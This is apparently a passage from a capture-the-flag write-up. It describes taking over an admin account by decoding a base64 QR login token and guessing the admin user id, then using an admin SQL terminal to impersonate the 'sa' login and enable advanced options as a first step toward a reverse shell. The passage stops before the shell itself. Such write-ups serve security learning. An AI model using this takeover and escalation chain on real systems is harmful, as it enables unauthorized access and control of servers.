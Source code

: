 We can recover an account even when we haven’t sign in, so let’s try to recover our employer account
<br/><br/>
![Untitled]({{ '/assets/images/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558_Untitled_9.png' | relative_url }})
<br/><br/>
Then we could log in, as a normal user shouldn’t do something like that now we can set up a chain attack using the new features available on the dashboard
<br/><br/>
![Untitled]({{ '/assets/images/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558_Untitled_10.png' | relative_url }})
<br/><br/>
An employer can sign in on another device without credentials only using a qr code which has 5 minutes of life
<br/><br/>
![Untitled]({{ '/assets/images/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558_Untitled_11.png' | relative_url }})
<br/><br/>
That qr code has a base64 encoded text and the token with the permissions to log in
<br/><br/>
![Untitled]({{ '/assets/images/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558_Untitled_12.png' | relative_url }})
<br/><br/>
If we decode that base64 string, we could see a number, probably a user id, so if it couldn’t validate if the user actually request the qr then we could exploit a IDOR attack just guessing the user id of admin.
<br/><br/>
![Untitled]({{ '/assets/images/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558_Untitled_13.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558_Untitled_14.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558_Untitled_15.png' | relative_url }})
<br/><br/>
Good news, now go to the admin directory we found earlier.
<br/><br/>
![Untitled]({{ '/assets/images/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558_Untitled_16.png' | relative_url }})
<br/><br/>
A SQL terminal, it could be interesting, a place where you can execute code sounds promising.
<br/><br/>
![Untitled]({{ '/assets/images/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558_Untitled_17.png' | relative_url }})
<br/><br/>
There are some information about how to exploit it here:
<br/><br/>
[https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
<br/><br/>
We can see that the owner of the database is `sa`
<br/><br/>
![Untitled]({{ '/assets/images/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558/a4c85c19-cfd5-4382-a34d-c6eb52e2ca97-export-d8ab7745-0493-416d-8469-7d9430991558_Untitled_18.png' | relative_url }})
<br/><br/>
To get the reverse shell we will need to follow the next steps:
<br/><br/>
```sql
#Sign in as db owner
EXECUTE AS LOGIN = 'sa'
#It should return sa as the current user
SELECT SYSTEM_USER
#Check if the current user has sysadmin role
SELECT IS_SRVROLEMEMBER('sysadmin')
#Allowing advanced options in SQL server and reconfigure changess
EXEC sp_configure 'Show Advanced Options',1;
RECONFIGURE;
```